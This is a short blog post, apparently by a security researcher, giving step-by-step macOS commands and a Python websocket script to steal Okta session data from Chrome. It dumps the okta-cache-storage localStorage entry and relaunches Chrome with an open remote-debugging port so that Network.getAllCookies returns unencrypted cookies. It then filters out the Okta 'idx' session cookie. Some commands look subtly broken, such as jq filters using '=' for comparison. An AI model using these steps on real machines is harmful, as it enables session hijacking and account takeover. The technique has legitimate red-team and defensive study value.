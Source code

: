 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
categories: 
---
```


# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain. Unencrypted cookies can still be fetched by attaching a remote chrome debugger. This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

Credit: Justin Bui and @mangopdf

### References:
* https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
* https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
* https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
* https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e